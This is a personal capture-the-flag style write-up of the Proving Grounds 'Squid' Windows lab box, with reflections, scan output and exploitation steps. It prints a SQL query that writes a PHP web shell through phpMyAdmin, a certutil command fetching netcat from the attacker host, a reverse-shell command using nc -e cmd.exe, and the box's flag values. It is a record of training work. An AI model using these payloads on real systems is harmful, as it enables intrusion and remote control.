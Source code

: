 ```yaml
---
Date: 2024-10-22
Platform: PG-Practice
Category: Windows
Difficulty: Easy
Status: Complete
IP: 192.168.146.189
Writeup: https://medium.com/@ardian.danny/oscp-practice-series-26-proving-grounds-squid-d8043f1f77e2
---
```

# Squid
Everything about this box was a refresher, and there's no doubt I leaned heavily on the walkthrough as I was doing it. Learning about Squid and `spose.py` were interesting, but there's a concern that `spose.py` is pretty niche and I may never have found it (or realised I needed it) without thew walkthrough. 

Maybe it's just more familiarity though, and with more practice I'll get better at knowing how to tackle this different Windows services. There's no question I learned more about how proxies work from this box, and setting up FoxyProxy to reach the target's open ports was particularly interesting.

Figuring out the MySQL query was challenging too, and I'm not sure I would have figured it out without the walkthrough. Now that I've done it though I can absolutely see how it works, so there's no question I'd try something similar if I came across the option to enter sql queries into an admin panel again. Understanding how those queries relate to the document root is also awesome to know, and not something I ever remember being covered in the course content.

Finally, this box helped put the pieces together on some of the netcat commands I've been running but not fully understanding - I needed the walkthrough to spell it out, and now that I've seen it in action I actually get what I've been doing previously when I've copy/pasted stuff in to make it work.

All round, I'm a little frustrated that I've needed so much walkthrough support on what is supposed to be an "easy" box, but the important thing is I keep working away at these boxes each night and learn from each one - it's way better to spend 2 hours following a walkthrough and being able to process the lessons from it, than it is to spend 5 hours bashing my head against the keyboard not understanding and being too stubborn to look at someone else's answers.

# Resolution summary
- Ran Nmap to identify ports `135`, `139`, `445` & `3128`
- Identified port `3128` as running `Squid v4.14`
- Used `spose.py` to identify ports behind `Squid` proxy
- Setup FoxyProxy to use `Squid` proxy and navigated to port `8080`
- Identified `myPHPAdmin` login and password guessed access
- Identified document root, then ran `MySQL` query to create php page which allowed command injection
- Tested command injection, then uploaded netcat to target
- Used command injection to launch netcat on target with reverse shell to Kali machine
- Caught reverse shell as `system`, then navigated to `C:\` and `C:\Users\Administrator\Desktop` to print flags
## Improved skills
- Windows service enumeration
- PHP command injection
- Netcat broadcaster
## Used tools
- nmap
- python
- spose.py
- FoxyProxy
- certutil

---
# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -sC -sV -oN squid.nmap 192.168.146.189 -v
```

Enumerated open TCP ports:
```bash
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3128/tcp open  http-proxy    Squid http proxy 4.14
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/4.14
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-10-22T07:50:13
|_  start_date: N/A
```
---
# Enumeration
## Port 135 - MSRPC (Windows RPC)
No enumeration conducted
## Port 139 & 445 - SMB (Microsoft Windows Netbios-SSN)
No enumeration conducted
## Port 3128 - HTTP (Squid http proxy 4.14)
- Navigated to `http://192.168.146.189:3128` and identified `Squid/4.14`
![[Pasted image 20241022183533.png]]
- Downloded `spose.py` Squid Pivoting Open Port Scanner) and ran `python3 spose.py --proxy http://192.168.146.189:3128 --target 192.168.146.189` to identify open ports `3306` and `8080` behind proxy
![[Pasted image 20241022184332.png]]
- Setup FoxyProxy with hostname `192.168.146.189` and port `3128`
![[Pasted image 20241022184554.png]]
- Navigated to `http://192.168.146.189:8080` via proxy `3128` and identified `Wampserver v3.2.3` and aliases
![[Pasted image 20241022184838.png]]
- Followed link `phpinfo()`, navigated to `http://192.168.146.189:8080/?phpinfo=-1` and identified `PHP v7.3.21`
![[Pasted image 20241022185105.png]]
- Identified `Document_Root` in directory `C:/wamp/www`
![[Pasted image 20241022185425.png]]
- Navigated to `http://192.168.146.189:8080/phpmyadmin/` and identified `phpMyAdmin` login page
![[Pasted image 20241022185530.png]]
- Attempted password guessing with `root:` (No Password) and gained admin access
![[Pasted image 20241022185627.png]]
---
# Exploitation
Selected "SQL" tab, navigated to `http://192.168.146.189:8080/phpmyadmin/db_sql.php?db=mysql` , and successfully ran SQL query 
```
`select '<?php system($_GET["cmd"]); ?>;' into outfile 'C:/wamp/www/revshell.php'
```
![[Pasted image 20241022190415.png]]
- Navigated to `http://192.168.146.189:8080/revshell.php?cmd=dir` and confirmed code execution
![[Pasted image 20241022190949.png]]
- Uploaded `nc2.exe` from Kali host to target via `certutil` by navigating to `http://192.168.146.189:8080/revshell.php?cmd=certutil%20-urlcache%20-f%20http://192.168.45.209:80/nc2.exe%20nc2.exe`
![[Pasted image 20241022191602.png]]
- Setup netcat listener on port `1234` and created reverse shell by navigating to `http://192.168.146.189:8080/revshell.php?cmd=nc2.exe%20192.168.45.209%201234%20-e%20cmd.exe` 
![[Pasted image 20241022193428.png]]
- Navigated to `C:\` and ran `type C:\local.txt` to print `e1e484bbc0c7fbccaf088074d318848d`
- Navigated to `C:\Users\Administrator\Desktop` and ran `type C:\Users\Administrator\Desktop\proof.txt` to print `f1d847afd8a8cee6ca94ad3008ce4ec9`
---
# Trophy & Loot
`local.txt` = `e1e484bbc0c7fbccaf088074d318848d`
`proof.txt` = `f1d847afd8a8cee6ca94ad3008ce4ec9`